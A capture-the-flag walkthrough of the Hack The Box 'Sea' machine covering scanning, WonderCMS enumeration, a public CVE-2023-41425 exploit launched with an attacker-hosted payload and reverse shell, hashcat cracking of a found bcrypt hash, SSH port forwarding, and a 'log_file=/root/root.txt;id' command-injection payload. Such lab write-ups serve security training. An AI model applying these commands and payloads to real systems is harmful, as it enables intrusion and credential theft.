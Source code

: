 # Sea walkthrough

## Connecting to Sea

Sea IP address: 10.10.11.28
Sea domain: sea.htb

Attacker IP address: 10.10.16.2

Command to connect to VPN: `sudo openvpn VPN` where VPN is downloaded from the HTB website. This command assumes you are in the directory where the VPN is saved.

## Scanning and Enumeration

Tools used: nmap, ffuf
Wordlists used: /usr/share/wordlists/dirb/big.txt, /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt

### Nmap scan

Commands: `nmap --min-rate 3000 -p- -A 10.10.11.28`

1. The command above is used to find out which ports are open in the target/victim machine. Flags used and their meanings:
    1. min-rate: specifies specifically how many packets to send out
    2. -p-: scans all 65535 ports
    3. -A: enables OS detection and version detection
2. Results of the nmap scan is as below:

    ```bash
    nmap --min-rate 3000  -A -p- 10.10.11.28
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-16 14:49 +08
    Nmap scan report for 10.10.11.28
    Host is up (0.028s latency).
    Not shown: 65533 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Sea - Home
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.94SVN%E=4%D=12/16%OT=22%CT=1%CU=37865%PV=Y%DS=2%DC=T%G=Y%TM=675
    OS:FCDA0%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=105%TI=Z%CI=Z%TS=A)SEQ(
    OS:SP=101%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=102%GCD=1%ISR=105%TI=Z%C
    OS:I=Z)OPS(O1=M542ST11NW7%O2=M542ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=
    OS:M542ST11NW7%O6=M542ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=F
    OS:E88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M542NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
    OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
    OS:Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=
    OS:A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=
    OS:Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%
    OS:T=40%CD=S)

    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE (using port 53/tcp)
    HOP RTT      ADDRESS
    1   76.33 ms 10.10.16.1
    2   14.74 ms 10.10.11.28

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 45.86 seconds
    ```

    Based on the results above, we can see that port 22 (SSH) and port 80 (HTTP) are open. Since SSH is most probably secure and does not have any active exploits, the first thing to check out will be port 80. We can do several things on port 80, such as:
    1. visiting the IP address itself (will discuss further in the next section),
    2. perform directory busting (commands 2, 3 and 4 below)

### Directory busting

Commands:

1. `ffuf -u http://sea.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -fc 403,500`

   ffuf is a tool that is used for directory busting. The flags that are used above are:
      1. -u: to specify the URL to test
      2. -w: to specify the wordlist to use
      3. -fc: to filter out the specified HTTP response codes

    The results showed that there is a `contact.php` and multiple directories from the above command, which will be further drilled down using commands 3 and 4.

2. `ffuf -u http://sea.htb/themes/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -fc 403,500`

    This is similar to the command used in command 2.

3. `ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -fc 403,500`

    In Command 4, there were some interesting results that were returned. The results are as below:

    ```text

    /'___\  /'___\           /'___\
    /\ \__/ /\ \__/  __  __  /\ \__/
    \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
    \ \_\   \ \_\  \ \____/  \ \_\
    \/_/    \/_/   \/___/    \/_/

    v2.1.0-dev
    ________________________________________________

    :: Method           : GET
    :: URL              : http://sea.htb/themes/bike/FUZZ
    :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
    :: Filter           : Response status: 403,500
    ________________________________________________

    README.md               [Status: 200, Size: 318, Words: 40, Lines: 16, Duration: 18ms]
    sym/root/home/          [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 21ms]
    version                 [Status: 200, Size: 6, Words: 1, Lines: 2, Duration: 18ms]
    ```

    Based on the results from ffuf, there is a README.md and version file. Looking into the README.md file, it seems that the web application is running WonderCMS; and looking into the version file, it seems that the version of WonderCMS is 3.2.0.

    ![WonderCMS README](./screenshots/WonderCMS%20Readme.png)
    <caption><i>README indicating that WonderCMS is being used in the web application</i></caption>

    ![WonderCMS Version](./screenshots/bike_version.png)
    <caption><i>WonderCMS version</i></caption>

    Doing a quick Google search on the WonderCMS version, there seems to be a vulnerability and exploits available in GitHub. The specific exploit that was used in this walkthrough is by duck-sec: [CVE-2023-41425](https://github.com/duck-sec/CVE-2023-41425).

### Visiting the website

When first visiting the website using the IP address, the website is just a simple page that just shows information about a type of event. However, going into the developer tools, it seems that there is a domain name for the website, as highlighted in the screenshot below.

![Domain Name](./screenshots/sea.htb%20source.png)

Since we now know the domain for this website, we can add it to `/etc/host` so that we can use `sea.htb` to visit the website in the future instead of using the IP address every time. This can be achieved using any text editor available.

Once that has been done, we can straight away visit the `contact.php` that was found earlier. In the page, it seems that there is a form that allows us to register for an event. Based on duck-sec's explanation on the detected WonderCMS exploit, we will be using this page to deliver our payload and to establish a reverse connection to the victim machine.

## Exploitation

As mentioned above, we will be using duck-sec's exploit and the `contact.php` to establish a reverse shell on the victim machine. To do this, we can just execute `python3 exploit.py http://sea.htb/loginURL -lh 10.10.16.2 -lp 4242 -sh 10.10.16.2 -sp 8080` where `-lh` and `-lp` both points to the reverse connection that will be established while `-sh` and `-sp` both points to the IP address and port that will be hosting the payload. After executing the command, we just need to follow the instructions that are later printed on stdout.

After establishing a reverse connection, the shell we can explore the `/var/www` directory but not the other users as we currently do not have the permission to do so. Going through the files, one interesting file is the `database.js`, in it, we find a hash, `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`, which is a bcrypt hash, and saved it to a file named `found_credentials.txt`. We can crack this hash using any cracking tools available, but I used `hashcat`. The command used is `hashcat -a 0 -m 3200 found_credentials.txt /usr/share/wordlists/rockyou.txt` and the cracked hash is **`mychemicalromance`**.

After retrieving this password, we can now try it against the other user accounts that we found in the machine, specifically `amay` and `geo`. We can try it by connecting to SSH. So the command used is `ssh USER@sea.htb`. After trial and error, the password works for the user `amay`. Once logged into the user `amay`, the first thing I did was to download and execute `linpeas.sh`. The results from `linpeas.sh` displayed several vulnerabilities such as PwnKit, sudo baronedit and CVE-2021-3560. However, none of these exploits worked.

After further examination of the results from `linpeas.sh`, it seems that port 8080 is open and is listening for connections but this port wasn't found in the nmap scan. It seems that port 8080 is only open for local connections. So, we can configure port forwarding using ssh itself and the command used to do this in my case is `ssh -L 8888:localhost:8080 amay@sea.htb`. Once connected, we can now visit the website served at port 8080 through port 8888 in our own machine (attacker's machine). This new page requested for login credentials and we can use the `amay:mychemicalromance` combination and it was successful.

In this page, it allows the user to view access and auth logs. The request made were through a parameter `log_file`. Further fuzzing on this parameter showed that we can use this parameter to display the contents of a file that required elevated privileges. In the end, the crafted payload for this `log_file` is: `log_file=/root/root.txt;id`. The root flag can be found in the response body.
